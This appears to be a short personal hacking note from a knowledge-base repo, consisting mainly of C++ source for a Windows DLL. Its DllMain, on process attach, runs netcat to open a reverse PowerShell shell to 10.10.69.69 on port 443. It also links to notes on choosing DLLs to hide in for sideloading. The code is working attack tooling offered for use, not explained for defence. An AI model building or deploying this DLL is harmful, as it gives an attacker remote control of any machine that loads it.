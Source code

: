 # compile windows DLL to run commands DLL code
```cpp
#include <windows.h>

BOOL WINAPI DllMain(
  HINSTANCE hinstDLL,  // handle to DLL module
  DWORD fdwReason,     // reason for calling function
  LPVOID lpReserved )  // reserved
{
  switch( fdwReason ) // Perform actions based on the reason for calling.
  {
    case DLL_PROCESS_ATTACH: // Initialize once for each new process.  Return FALSE to fail DLL load.
      WinExec("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell", 0);
      //system("c:\\windows\\tasks\\nc.exe 10.10.69.69 443 -e powershell");
      break;

    case DLL_THREAD_ATTACH: // Do thread-specific initialization.
    case DLL_THREAD_DETACH: // Do thread-specific cleanup.
    case DLL_PROCESS_DETACH: // Perform any necessary cleanup.
      break;
  }
  return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```

` zet/20221003151105/README.md `

# Related

- [20221014185657](/zet/20221014185657/README.md) kb file named kb/hacking/windows/dll-to-run-commands.md
- [20221008194048](/zet/20221008194048/README.md) good DLLs to hide in for sideloading
- [20221003151106](/zet/20221003151106/README.md) compile windows DLL to run commands
- [20221003151104](/zet/20221003151104/README.md) compile windows DLL to run commands DLL code building with mingw
- ~/kb/hacking/windows/dll-to-run-commands.md

Tags:

    #command #hacking #windows #dll 
